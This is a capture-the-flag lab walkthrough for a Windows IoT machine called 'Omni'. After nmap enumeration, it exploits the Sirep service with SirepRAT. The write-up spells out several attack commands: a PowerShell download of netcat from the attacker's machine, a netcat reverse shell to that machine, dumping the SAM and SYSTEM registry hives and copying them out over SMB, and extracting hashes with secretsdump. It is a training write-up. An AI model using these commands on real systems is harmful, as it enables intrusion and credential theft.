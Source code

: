 # Omni 

## Enumeration

### Port enumeration initial

`sudo nmap --min-rate=3000 -sS -v -p- -n -oN nmap.init $target`

```bash
# Nmap 7.94 scan initiated Wed Sep  6 09:16:12 2023 as: nmap --min-rate=3000 -sS -v -p- -n -oN nmap.init $target
Nmap scan report for $target
Host is up (6.8s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT      STATE SERVICE
135/tcp   open  msrpc
5985/tcp  open  wsman
8080/tcp  open  http-proxy
29817/tcp open  unknown
29819/tcp open  unknown
29820/tcp open  unknown
```

### Enumeration port versions

```bash
# Nmap 7.94 scan initiated Wed Sep  6 09:21:31 2023 as: nmap --min-rate=3000 -sVC -v -p135,5985,8080,29817,29819,29820 -n -oN nmap.version $target
Nmap scan report for $target
Host is up (0.17s latency).

PORT      STATE SERVICE  VERSION
135/tcp   open  msrpc    Microsoft Windows RPC
5985/tcp  open  upnp     Microsoft IIS httpd
8080/tcp  open  upnp     Microsoft IIS httpd
|_http-title: Site doesn't have a title.
|_http-server-header: Microsoft-HTTPAPI/2.0
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Windows Device Portal
29817/tcp open  unknown
29819/tcp open  arcserve ARCserve Discovery
29820/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port29820-TCP:V=7.94%I=7%D=9/6%Time=64F87CE2%P=x86_64-pc-linux-gnu%r(NU
SF:LL,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(GenericLines,10,"\
SF:*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(Help,10,"\*LY\xa5\xfb`\x04
SF:G\xa9m\x1c\xc9}\xc8O\x12")%r(JavaRMI,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc
SF:9}\xc8O\x12");
Service Info: Host: PING; OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep  6 09:22:51 2023 -- 1 IP address (1 host up) scanned in 80.57 seconds
```

## Enumeration of http service

Visit the site http://$target:8080 and open the next window:

![Autentication Basic](images/7fd28afb7112ce4250aacd7d5dde7adea4586f6a8a7f9e75bfbd16308b13f089.png)  

This is a basic authentication, and it will become important later.


## Enumeration of rpc

I tried to enumerate rpcclient with a null session, but i didn't find any.

`rpcclient -U "" ip -N`


## Enumeration port 29819

Investigating this protocol is related to **Windows Device Portal** and the protocol's name is **sirep**. 


# Explotation

Download the next tool:

```bash
git clone https://github.com/SafeBreach-Labs/SirepRAT.git
cd SirepRAT
```

I did a proof of concept to see if i have reading or writing capability.


![picture 1](images/1d6810512bd5ceb283b0dfb62d6cd0f20efce979c09c52584c71a4f952070c57.png)  


## Privilege escalation 

I trying to upload netcat to the server using this command.

```bash
python SirepRAT.py $target LaunchCommandWithOutput --return_output --cmd "powershell" --args "-c iwr -uri http://$atack_machine:8000/nc.exe -OutFile C:\Windows\System32\spool\drivers\color\nc.exe"

```

![picture 2](images/58bc434010039f84ebb780f04875020ea6216368fb211e9a56aebbd408811a16.png)  


While I opened a port to receive the shell, in the server i invoked netcat.


```bash
python SirepRAT.py $target LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c C:\Windows\System32\spool\drivers\color\nc.exe -e cmd $atack_machine 1234"
```
![picture 3](images/10db5c409b765a2f580af3eeb9becee42ce6d247ac1a7b5eff9b9e42f4ff05a2.png)  



Save the registry keys SAM and SYSTEM

`
reg save HKLM\SAM sam1
`
`
reg save HKLM\SYSTEM system1
`
![Alt text](images/image.png)



Send the files through SMB

```bash
copy sam1 \\$atack_machine\smbFolder\sam1
copy system1 \\$atack_machine\smbFolder\system1
```

![picture 4](images/7ee865697c88bad022c2805b3172171cddcb56aa02ea20251b6cb1910210b716.png)  


And I get the SAM hashes with the tool *scretsdump.py* 

`python3 /usr/share/doc/python3-impacket/examples/secretsdump.py  -system system1 -sam sam1 LOCAL`

![Alt text](images/image-1.png)

I filter the hash file and get the nt hash.

![Alt text](images/image-2.png)

Then use crackstation

![Alt text](images/image-3.png)


And reutilize credentials in the web portal.

![Alt text](images/image-4.png)




### Privilege escalation 

I explored the portal, and the portal has the capability to execute commands.

![Alt text](images/image-5.png)


Execute a new revshell.


![picture 5](images/bd9e8c6cdb176195078d8fa40a7a129d5e819317bf054ec6a541da23d7cc0c0d.png)  


![Alt text](images/image-6.png)


# User flag

Search the flag

![picture 7](images/3dd61b78d9ec55da49c6c09f2cadd00ea552550cdeebcfb87f432d20afd150cb.png)  

Show the flag.

It seems a credential store in a file.

![Alt text](images/image-8.png)


The open with the powershell's tools Import-cliXml:

`(Import-cliXml -Path user.txt).GetNetworkCredential().password`

![picture 6](images/c27d811e74ed72c31cce87cbd86a6f200f5878ea25de100454f8c24b93cf4727.png)  


# Root


And there are another strange file in the same path it is *iot-admin.xml*.

I use the same tool.

`(Import-cliXml -Path iot-admin.xml).GetNetworkCredential().password`

![Alt text](images/image-9.png)

And reutilize credentials in the web portal.

![Alt text](images/image-10.png)


![Alt text](images/image-12.png)

![Alt text](images/image-13.png)

And show the flag.

![Alt text](images/image-14.png)


Using the same technique previously employed.

`(Import-cliXml -Path root.txt).GetNetworkCredential().password`

![Alt text](images/image-15.png)

